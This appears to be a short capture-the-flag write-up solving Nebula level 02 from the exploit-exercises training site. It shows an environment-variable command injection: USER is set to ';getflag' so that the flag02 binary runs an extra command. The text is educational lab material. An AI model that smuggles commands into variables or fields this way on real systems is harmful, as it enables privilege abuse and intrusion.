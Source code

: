.. _nebula02

.. role:: bash(code)
	  :language: bash

Nebula level 02
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level02/

Solution
--------

Export a variable call :bash:`USER` like this:

::bash:`$export USER=";getflag"`

and then run :bash:`flag02`

:bash:`./flag02`

